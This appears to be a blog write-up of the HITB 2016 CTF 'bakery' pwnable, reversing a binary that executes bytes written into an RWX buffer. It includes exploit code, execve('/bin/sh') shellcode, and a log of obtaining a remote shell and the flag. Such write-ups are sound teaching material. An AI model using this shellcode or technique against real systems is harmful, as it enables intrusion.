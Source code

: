 +++
title = "HITB 2016 - Bakery write-up"
author = "hugsy"
date = 2016-04-01T00:00:00Z
updated = 2016-04-01T00:00:00Z

[taxonomies]
categories = ["ctf"]
tags = ["pwn","hitb"]
+++

I participated to [HITB Teaser CTF](https://ctftime.org/event/325/) only to have a bit of
fun with there pwnable challenge(s) which I find usually fun and
instructive. The teaser only offered one pwnable challenge, named `bakery`.


### Info ###


```bash
gef➤  !file ./bakery.910abf341053d25831ecb465b7ddf738
./bakery.910abf341053d25831ecb465b7ddf738: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=74fa32ca74594550d59ff5fb64b8dd523965cdfc, stripped
gef➤  checksec ./bakery.910abf341053d25831ecb465b7ddf738
[+] checksec for './bakery.910abf341053d25831ecb465b7ddf738'
Canary:                                           Yes
NX Support:                                       Yes
PIE Support:                                      No
RPATH:                                            No
RUNPATH:                                          No
Partial RelRO:                                    Yes
Full RelRO:                                       No
```

It is a baking program, that allows to build your own recipe.


### Vulnerability ###

After printing the available ingredients, the `main` function does this (at
0x0400CBC)
![image_alt](https://i.imgur.com/yrFucNx.png)

Which translates to the pseudo-code:
```c
buf = mmap(NULL, 0x1000, RWX, flags, ...);
memset(buf, '\xc3', 0x1000);
srand( time(NULL) );
randint = rand() * 0x1337;
printf("0v3n w4rm3d up to %d d3greez! (d4mn h0t!)\n", randint);
```

Then it enters a loop to add the ingredients:
```c
printf("Add ingredient");
fgets(ingredient, 127, stdin);
ingredient[ strlen(ingredient)-1 ] = '\x00';
strncmp(ingredient, "BAKE", 4);
```

If we enter `BAKE`, it will simply jump to the buffer allocated by `mmap` from
above:
```asm
.text:0000000000400EB8                 mov     rax, [rbp+mmap_buf]
.text:0000000000400EBF                 mov     [rbp+var_108], rax
.text:0000000000400EC6                 mov     rdx, [rbp+mmap_buf]
.text:0000000000400ECD                 mov     rax, [rbp+var_108]
.text:0000000000400ED4                 mov     rdi, rdx
.text:0000000000400ED7                 call    rax
```

Otherwise, it will check using `strstr()` if our ingredient we entered is in the
list of valid ingredients. If the sub-string was found, it calls a function at
0x400B15 with 2 arguments, the string we provided as input for ingredient, and
the random integer generated initially.

The function at 0x400B15 is fairly simply and could be translate to pseudo-code
like this:
```c
int func_400B15(char* input, int init)
{
  int accu;
  int i;
  accu = init;
  for( i=0; i<strlen(input); i++ ) accu += input[i];
  return accu;
}
```

The result is then `and`-ed to 0xff and written at current location in the mmap
allocated buffer
```asm
.text:0000000000400E77                 mov     rax, [rbp+p_mmap_buf]
.text:0000000000400E7E                 movzx   edx, [rbp+result]
.text:0000000000400E85                 mov     [rax], dl
.text:0000000000400E87                 add     [rbp+p_mmap_buf], 1
```
The pointer to the `mmap` buffer is incremented.


So what this program is doing, is using the "accumulator" function to write
inside the `mmap` buffer, which will then be jumped into and executed.


### Exploitation ###

Getting the initial random integer can be done by reading from the socket until
receiving the string `0v3n w4rm3d up to` and divide this value by 0x1337.
```python
    # get the init rand()
    parts = s.read_until("\n").split()
    temp = int(parts[5])
    ok("Got temp=%d" % temp)
    rand = temp / 0x1337
    ok("Got rand=%d" % rand)
```

To reliably control the content of the `mmap`-ed buffer, we need to "compensate"
the accumulation that the function is doing. Since we know the initial random
integer, my approach was to use one of the valid ingredients (in this case
`FLOUR`) which is required to pass the `strstr()` check, sum up the ascii values
of the letters of the word, and add the random init.
```python
def write_char_in_memory(sock, char, init):
    sock.read_until("add ingredient> ")
    [...]
    base = init + sum( [ord(x) for x in 'FLOUR'] )
```

If the value does not finish by a NULL, I calculate what is the closest upper
bound to be aligned with 0, and substract the result with my value:
```python
def find_closest_upper_bound(x):
    a = x >> 8
    a+= 1
    return a << 8

[...]
    top = base
    if base & 0xff != 0x00:
        top = find_closest_upper_bound(base)
    diff = top-base
```

This gives me in the `diff` variable what needs to be added to the stub `randint
+ 'F' + 'L' + 'O' + 'U' + 'R'`. We can then padding this stub by appending to
this stuff `diff` times `\x01`. This way we fully control the last byte, so we
can append the character we actually want written in memory.


Now that we can write reliably one character at a time, we can copy our
shellcode:
```python
        sc = "\x48\x31\xd2"                                  # xor rdx, rdx
        sc+= "\x48\x31\xc0"                                  # xor rax, rax
        sc+= "\x48\x31\xf6"                                  # xor rsi, rsi
        sc+= "\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68"      # mov rbx, 0x68732f6e69622f2f
        sc+= "\x48\xc1\xeb\x08"                              # shr rbx, 0x8
        sc+= "\x53"                                          # push rbx
        sc+= "\x48\x89\xe7"                                  # mov rdi, rsp
        sc+= "\xc6\xc0\x3b"                                  # mov al, 59
        sc+= "\x0f\x05"                                      # syscall

        for c in sc:
            write_char_in_memory(s, c, rand & 0xff)
```

And to execute it, the only thing left is to start baking!
```python
        s.read_until("add ingredient> ")
        s.write("BAKE" + '\n' )
```

Let's go:
```bash
$  py gef-exploit.py
[+] Connected to 52.17.31.229:31337
Attach with GDB and hit Enter
[+] Got banner
[+] Got temp=654227
[+] Got rand=133
[*] Writing char=H rand=133
[*] Using top=768, base=525
[*] Sending ''FLOURAAA\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01H''
[*] Writing char=1 rand=133
[*] Using top=768, base=525
[...]
[+] Got it, interacting (Ctrl-C to break)
[+] Get a PTY with ' python -c "import pty;pty.spawn('/bin/bash')"  '
python -c "import pty;pty.spawn('/bin/bash')"
bakery@ip-172-31-31-97:/$ cd home/bakery
cd home/bakery
bakery@ip-172-31-31-97:/home/bakery$ ls
ls
YOU_WANT_THIS_ONE  bakery
bakery@ip-172-31-31-97:/home/bakery$ cat YOU_WANT_THIS_ONE
cat YOU_WANT_THIS_ONE
You win! The flag is HITB{24d467d954cc08efbfa6acd8341e55d7}
bakery@ip-172-31-31-97:/home/bakery$
```

Fun challenge, thanks to the whole HITB crew for their continuous creativity. And as usual, the full exploit can be found [here](https://gist.github.com/hugsy/06ff00997c9d07099f27).
